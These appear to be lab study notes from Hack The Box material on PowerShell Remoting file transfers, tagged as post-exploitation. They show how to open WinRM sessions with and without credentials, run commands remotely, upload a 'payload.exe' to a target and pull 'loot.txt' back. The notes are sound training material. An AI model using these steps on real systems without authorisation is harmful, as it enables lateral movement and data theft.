 # Without Creds
#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.
#### Create a PowerShell Remoting Session to DATABASE01

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

We can use the `Copy-Item` cmdlet to copy a file from our local machine `DC01` to the `DATABASE01` session we have `$Session` or vice versa.
#### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
#### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
# With creds
#### Check if WinRM is Open on the Target

```powershell
Test-NetConnection -ComputerName TARGET01 -Port 5985
```
#### Create a Session with Credentials

```PowerShell
$User = "htb\lowleveluser"
$Pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
```
#### Create a Remote PowerShell Session

```PowerShell
$Session = New-PSSession -ComputerName TARGET01 -Credential $Cred
```
#### Run Commands Remotely

```PowerShell
Invoke-Command -Session $Session -ScriptBlock { whoami }
```
#### Upload file **to remote host**

```PowerShell
Copy-Item "C:\local\payload.exe" -Destination "C:\Users\Public\" -ToSession $Session
```
#### Download file **from remote host**

```PowerShell
Copy-Item -Path "C:\Users\Public\loot.txt" -Destination "C:\loot\" -FromSession $Session
```
# Tags
> #Post-Exploitation #Windows-Post-Exploitation #File-Transfers #PowerShell-Remoting